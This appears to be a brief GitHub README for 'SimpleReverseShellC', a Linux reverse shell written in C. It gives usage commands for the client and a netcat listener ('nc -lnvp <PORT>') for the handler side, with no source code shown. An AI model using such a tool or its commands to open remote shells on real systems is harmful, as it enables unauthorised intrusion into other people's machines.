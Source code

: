 # SimpleReverseShellC

This is a simple Reverse Shell written for linux platform execution.

## Usage:

./linuxClient <IP> <PORT>

Where <IP> and <PORT> will default to the default defines if no paramters are passed.


Handler side current Usage:

nc -lnvp <PORT>
